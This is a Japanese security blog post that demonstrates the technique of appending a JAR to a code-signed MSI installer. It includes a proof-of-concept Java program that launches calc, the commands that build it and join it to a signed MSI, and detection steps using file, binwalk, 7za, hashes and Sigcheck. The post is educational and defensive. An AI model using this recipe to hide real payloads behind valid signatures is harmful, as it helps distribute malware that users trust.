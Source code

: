 ```yaml
---
layout: post
title:  "malicious jar appended to msi"
date:   2019-01-28
permalink: /security/:title
categories: Security
tags: malware jar msi
excerpt: VirusTotal blogで2019.1.15に紹介されたマルウェア配信テクニックを実証します。
---
```

 
* content
{:toc}

# 初めに

このポストでは、コード署名済みmsiファイルに悪意あるJARを追加する経験を通じて、そのような手法で作成されたファイルを見極める方法を考察します。

2019年01月15日にVirusTotalブログに「悪意あるJARファイルをコード署名済みmsiファイルに追加する手法」の注意喚起が掲載されました。
コード署名とは信頼できるベンダーによって提供されたソフトウェアが改ざんされていない事を確認する手段の一つです。
コード署名が施されたexeファイルを改ざんすると署名は無効化されますが、msiファイルの末尾に悪意あるコードを追加した場合はその限りではありません。

この抜け穴は悪意あるJARファイルを実行する場面で有効です。
JARファイルはZIPフォーマットを採用しており、ファイル末尾のセントラルディレクトリを参照してアーカイブされたリソースを読み取ります。
つまり、ファイルの先頭がどのようなデータであろうと、末尾nバイトが正常なデータはJARとして機能します。

# 実行可能JARを作る

Windows calcを起動するだけのjavaプログラムを書きます。

```
public class Malware{
  public static void main(String[] args){
    try{
      Runtime.getRuntime().exec("cmd /c calc.exe");
    }catch(Exception e){
      e.printStackTrace();
    }
  }
}
```

エントリーポイントを指定するためにマニフェストを書きます。

```
Main-Class: Malware
```

コンパイルしてJARにまとめます。

```
> javac Malware.java
> jar cfm simple.jar mymanifest *.class
```

出来上がったsimple.jarをダブルクリックするとWindows calcが起動します。

# MSIに埋め込む

適当な署名済みMSIファイルを用意します。

![](/images/appendedmsi/capture01.png)

MSIファイルの後ろにsimple.jarを結合します。

```
> copy /b elasticsearch-6.5.4.msi + simple.jar attached.jar
```

attached.jarのプロパティから有効なデジタル署名を確認できますが、ダブルクリックするとWindows Calcが起動します。
正規のインストーラーに偽装した悪意あるJARを拡散するシナリオが想定できます。

<iframe width="560" height="315" src="https://www.youtube.com/embed/klDeYL5KzM4" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

JARファイルを少し書き換えれば、Windows Calcが起動した後で本来のMSIファイルの挙動に繋げて、悪意ある挙動をカムフラージュすることも出来そうです。

# 改ざんを見極める

JARを埋め込んだMSIにどのような特徴があるのか調べました。

- バイナリが違うので既知のシグネチャにはマッチしません
- ハッシュも変わります
- 元がMSIなのでマジックナンバーがPKではありません

  ![](/images/appendedmsi/capture02.png)

- ファイル種別はMSI Installerです

  ```
  root@user-VirtualBox:/tmp# file attached.jar
  attached.jar: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.2, MSI Installer
  ```

- x509証明書の後ろにZIPデータが続いています

  ```
  root@user-VirtualBox:/tmp# binwalk attached.jar

  DECIMAL       HEXADECIMAL     DESCRIPTION
  --------------------------------------------------------------------------------
  20480         0x5000          Microsoft Cabinet archive data, 104004344 bytes, 336 files
  1778894       0x1B24CE        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.SF
  2428408       0x250DF8        Zip archive data, at least v2.0 to extract, name: META-INF/MANIFEST.MF
  2582000       0x2765F0        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.SF
  2732443       0x29B19B        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.DSA
  ...(snip)...
  105941412     0x65089A4       XML document, version: "1.0"
  105947648     0x650A200       Microsoft Cabinet archive data, 3707320 bytes, 10 files
  109688426     0x689B66A       eCos RTOS string reference: "eCostInitializeFileCostCostFinalizeInstallValidateInstallInitializeInstallAdminPackageInstallFinalizeExecuteActionPublishFeature"
  109688444     0x689B67C       eCos RTOS string reference: "eCostCostFinalizeInstallValidateInstallInitializeInstallAdminPackageInstallFinalizeExecuteActionPublishFeaturesPublishProductINS"
  109772948     0x68B0094       Certificate in DER format (x509 v3), header length: 4, sequence length: 1177
  109774129     0x68B0531       Certificate in DER format (x509 v3), header length: 4, sequence length: 1386
  109775519     0x68B0A9F       Certificate in DER format (x509 v3), header length: 4, sequence length: 1504
  109780992     0x68B2000       Zip archive data, at least v2.0 to extract, name: META-INF/
  109781053     0x68B203D       Zip archive data, at least v2.0 to extract, name: META-INF/MANIFEST.MF
  109781208     0x68B20D8       Zip archive data, at least v2.0 to extract, name: Malware.class
  109781808     0x68B2330       End of Zip archive
  ```

- アーカイブされたファイルを参照できます

  ```
  root@user-VirtualBox:/tmp# 7za L attached.jar

  7-Zip (A) [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
  p7zip Version 9.20 (locale=C,Utf16=off,HugeFiles=on,1 CPU)

  Listing archive: attached.jar

  --
  Path = attached.jar
  Type = zip
  Physical Size = 108002936
  Offset = 1778894

     Date      Time    Attr         Size   Compressed  Name
  ------------------- ----- ------------ ------------  ------------------------
  2019-01-27 18:06:50 D....            0            2  META-INF
  2019-01-27 18:06:50 .....           90           89  META-INF/MANIFEST.MF
  2019-01-27 17:37:30 .....          535          357  Malware.class
  ------------------- ----- ------------ ------------  ------------------------
                                     625          448  2 files, 1 folders
  ```

# まとめ

悪意あるJARを署名済みMSIに埋め込むことは非常に簡単です。
そのようにして作成された悪意あるファイルは元のデジタル署名を引き継ぐため、一見しただけでは正常なファイルのように見えます。

幸いなことに、悪意あるJARファイルを見極めるのに役立ついくつかの観点があります。
ファイルを実行する前に少し立ち止まって、これに目を向けてください。

- ファイルのハッシュが公式サイトに掲載されている値と一致しているか
- ファイルのマジックナンバーと拡張子が一致しているか
- ファイルの末尾に不審なZIPデータが付いていないか

また、VirusTotalブログに記載されている通り、MS Sysinternal Sigcheckの最新版には今回の改ざんを検知する新たな機能が実装されています。VirusTotalもSigcheckを利用しており、今回のファイルに対してSigned but the filesize is invalid (the file is too large)という警告を上げてくれます。

# 参考URL

- [VirusTotal: Distribution of malicious JAR appended to MSI files signed by third parties](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html)
- [Wikipedia: ZIPファイルフォーマット](https://ja.wikipedia.org/wiki/ZIP_%28%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%83%95%E3%82%A9%E3%83%BC%E3%83%9E%E3%83%83%E3%83%88%29)
